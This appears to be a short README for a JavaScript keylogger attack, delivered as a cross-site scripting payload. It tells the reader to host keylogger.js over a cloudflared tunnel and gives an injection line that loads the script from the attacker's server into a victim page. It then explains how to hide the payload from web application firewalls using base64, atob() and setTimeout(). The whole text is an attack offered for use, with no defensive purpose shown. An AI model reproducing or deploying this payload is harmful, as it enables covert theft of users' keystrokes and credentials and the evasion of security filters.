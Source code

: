 1. Make a cloudflared tunneling in your terminal for public keylogger.js host with ssl certificate or if you have your own ssl web server you can use it

2. Use this JS to call the keylogger script

var a=document.createElement("script");a.src="https://[your webserver or cloudflare tunnel]/keylogger.js";document.body.appendChild(a); </br>

4. Make this js to base64 for waf bypass

5. Add this to your xss payload with setTimeout() and atob()

6. atob() is used for base64 js execution and setTimeout() is used for waf bypass execution instead of eval()
